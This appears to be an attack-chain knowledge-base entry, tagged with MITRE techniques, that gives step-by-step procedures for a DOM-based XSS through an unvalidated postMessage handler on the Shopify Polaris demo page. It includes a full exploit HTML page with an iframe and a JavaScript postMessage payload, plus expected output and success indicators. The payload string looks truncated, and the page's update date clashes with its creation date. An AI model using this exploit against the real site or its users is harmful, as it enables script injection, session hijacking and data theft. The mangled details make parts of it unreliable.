

---
tags:
  - xss
  - dom-xss
  - postmessage
  - shopify
  - react
  - javascript
type: attack_chain
tools:
  - '[[tools/prettier]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/add-message-event-listener]]'
  - '[[commands/send-malicious-postmessage]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Embed-Polaris-Demo-in-Iframe]]'
  - '[[procedures/Send-Malicious-postMessage-Payload]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploits a DOM-based XSS vulnerability in the Shopify Polaris demo page by
  embedding it in an iframe and sending unvalidated postMessage payloads to
  execute arbitrary JavaScript.
skill_level: intermediate
impact_level: high
id: 8012066a-e42b-4e11-84de-eac0305a27bd
created_at: '2025-12-14T03:16:02.514Z'
updated_at: '2025-12-14T03:16:02.514Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# DOM-based XSS via Unvalidated postMessage in Shopify Polaris Demo

## Overview

This attack chain demonstrates a DOM-based Cross-Site Scripting (XSS) vulnerability in the Shopify Polaris demo page at https://polaris.shopify.com/demo. The flaw arises from the lack of origin validation in the postMessage event handler within the demo's JavaScript file (demo-3801177f8c9e2fc96d7fbd9b73f76b32a8aa35fee26bee5aa0964e71955cf960.js). By embedding the demo in an iframe on a malicious page and sending a crafted postMessage payload containing malicious JSX, an attacker can inject and execute arbitrary JavaScript in the victim's browser context. This could lead to data theft, session hijacking, or further exploitation. The attack requires no authentication and targets users visiting a malicious site.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/prettier]] (for formatting JS code during analysis)

### Target Environment

- Web browser (any modern browser supporting iframes and postMessage)
- Target URL: https://polaris.shopify.com/demo
- No specific services or ports required beyond standard HTTP/HTTPS

### Initial Access Requirements

- Victim must load the attacker's malicious HTML page
- No credentials or prior access needed
- Attacker controls a web server to host the malicious page

## Detailed Attack Procedures

### Step 1: Embed Polaris Demo in Iframe
procedure: [[procedures/Embed-Polaris-Demo-in-Iframe]]

**Objective**: Load the vulnerable Shopify Polaris demo page within an iframe on a malicious HTML page to prepare for postMessage exploitation.

**Instructions**: Create a local HTML file (e.g., exploit.html) and embed an iframe pointing to the demo URL. Set appropriate attributes for visibility. Use [[commands/add-message-event-listener]] if needed for testing, but the primary action is embedding.

```html
<!DOCTYPE html>
<html>
<head><title>Exploit Page</title></head>
<body>
  <iframe id="ifrm" src="https://polaris.shopify.com/demo" width="800" height="600" frameborder="0"></iframe>
  <script>
    // Optional: Add listener for testing, but not required for exploit
    window.addEventListener("message", function(e) { console.log(e); });
  </script>
</body>
</html>
```

Serve this file via a local web server (e.g., python -m http.server 8000) and load it in a browser.

**Expected Output**: The Polaris demo loads inside the iframe without errors.

**Success Indicators**:
- Iframe renders the demo page successfully
- Browser console shows no cross-origin blocking for the embed

### Step 2: Send Malicious postMessage Payload
procedure: [[procedures/Send-Malicious-postMessage-Payload]]

**Objective**: After the iframe loads, send a postMessage with a payload that injects malicious JSX into the demo's React state, triggering XSS execution.

**Instructions**: Attach an onload event to the iframe and use [[commands/send-malicious-postmessage]] to dispatch the payload to the iframe's contentWindow. The payload targets the handleMessage function, which sets unvalidated ast.code to React state and renders it.

```javascript
const ifrm = document.getElementById('ifrm');
ifrm.onload = function() {
  ifrm.contentWindow.postMessage({
    ast: {
      code: " alert(document.location)} />;"
    }
  }, '*');
};
```

Add this script to the HTML file from Step 1. Reload the page to trigger.

**Expected Output**: An alert box pops up displaying the current URL, confirming JS execution in the demo's context.

**Success Indicators**:
- Alert executes with victim's location
- No console errors from postMessage
- Arbitrary JS runs in the iframe's domain

## Attack Chain Summary

### Key Achievements

1. Successful embedding of the vulnerable demo without restrictions
2. Injection of malicious JSX via postMessage, bypassing origin checks
3. Arbitrary JavaScript execution, enabling data exfiltration or phishing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Collection]] Collection

*Last updated: 2023-10-01*
